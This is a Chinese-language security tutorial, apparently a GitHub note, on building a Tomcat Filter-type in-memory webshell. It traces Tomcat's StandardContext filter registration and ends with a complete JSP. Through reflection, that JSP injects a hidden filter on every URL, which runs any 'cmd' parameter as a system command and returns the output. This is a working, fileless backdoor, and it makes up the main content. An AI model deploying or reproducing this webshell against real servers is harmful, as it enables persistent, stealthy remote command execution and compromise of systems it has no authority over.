










# Tomcat-Filter型内存马

<center>@Y4tacker</center>


当tomcat接收到请求时候，依次会经过Listener -> Filter -> Servlet，监听器的我们已经实现了相对简单一点，过滤器的则相对复杂一点

## 简单实现一个过滤器

首先需要简单写个filter

```java
public class TestFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("filter初始化");
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        System.out.println("doFilter过滤");
        //放行
        chain.doFilter(request,response);
    }

    @Override
    public void destroy() {
        System.out.println("destroy filter");

    }
}
```

配置xml

```xml
<filter>
    <filter-name>TestFilter</filter-name>
    <filter-class>com.yyds.TestFilter</filter-class>
</filter>
<filter-mapping>
    <filter-name>TestFilter</filter-name>
    <url-pattern>/*</url-pattern>
</filter-mapping>
```

## 如何自己添加一个新的自定义FIlter呢

实现了这个那么我们的内存马问题也就解决了

首先在init方法打上断点，它是通过调用具体的过滤器的init，毕竟很容易想到，初始化的时候就是添加的时候

在`org.apache.catalina.core.StandardContext#filterStart`

首先对filterDefs进行foreach，可以看到这是一个HashMap，对应是<key,Object>，具体是过滤器名称和FilterDef对象



从这里不难看出我们需要对FilterDef对象设置的属性

不急着往下走，filterDefs如何添加值我们还没说，当然也很简单



再往下，对filterConfigs这个HashMap设置ApplicationFilterConfig

```java
ApplicationFilterConfig filterConfig =
new ApplicationFilterConfig(this, entry.getValue());
filterConfigs.put(name, filterConfig);
```

具体跟入看看，这里有两种方式，

1.`filterDef.getFilter()`如果为空，则会去调用`getFilter();`实例化



2.`filterDef.getFilter()`条件不为空

简单跟入，有get则也有set，并且是public方法也比较方便



以上两种都可以，简单对这部分写出伪代码

```java
FilterDef filterDef = new FilterDef();
filterDef.setFilter(filter);
filterDef.setFilterName(name);
filterDef.setFilterClass(filter.getClass().getName());
standardContext.addFilterDef(filterDef);
```

但这样还远远不够，为什么呢，继续往下看

接下来就是调用了，我们在之前自定义的Filter的doFilter上打断点，为什么呢，因为这是监听器的核心功能，我们从这里需要知道具体取得了监听器的哪个参数

不难看出从filterConfig中取得了这个Filter，这个filterConfig可以通过StandardConfig取得



从调用链当中我们可以看到一个filterChain

往上看可以看到这个是通过下面这行代码取得

```java
ApplicationFilterChain filterChain = ApplicationFilterFactory.createFilterChain(request, wrapper, servlet);
```

跟入发现这里还有一个通过上下文取得的FilterMap，刚刚上面的伪代码并没有这一个，所需要参数如下

这里有个坑就是别忘了设置Dispatcher，这里我们设置DispatcherType.REQUEST.name()即可

```java
public void setDispatcher(String dispatcherString) {
String dispatcher = dispatcherString.toUpperCase(Locale.ENGLISH);

if (dispatcher.equals(DispatcherType.FORWARD.name())) {
// apply FORWARD to the global dispatcherMapping.
dispatcherMapping |= FORWARD;
} else if (dispatcher.equals(DispatcherType.INCLUDE.name())) {
// apply INCLUDE to the global dispatcherMapping.
dispatcherMapping |= INCLUDE;
} else if (dispatcher.equals(DispatcherType.REQUEST.name())) {
// apply REQUEST to the global dispatcherMapping.
dispatcherMapping |= REQUEST;
}  else if (dispatcher.equals(DispatcherType.ERROR.name())) {
// apply ERROR to the global dispatcherMapping.
dispatcherMapping |= ERROR;
}  else if (dispatcher.equals(DispatcherType.ASYNC.name())) {
// apply ERROR to the global dispatcherMapping.
dispatcherMapping |= ASYNC;
}
}
```


之后关于设置FilterMap，在StandardContext中找到了个addFilterMap还有个addFilterMapBefore这里我们随便来一个`org.apache.catalina.core.StandardContext#addFilterMapBefore`就好


## 具体实现内存马

接下来整理下流程

根据上面流程我们只需要设置filterMaps、filterConfigs、filterDefs就可以注入恶意的filter

- filterMaps：一个HashMap对象，包含过滤器名字和URL映射
- filterDefs：一个HashMap对象，过滤器名字和过滤器实例的映射
- filterConfigs变量：一个ApplicationFilterConfig对象，里面存放了filterDefs

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "y4tacker";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("Inject Success !");
    }
%>
```




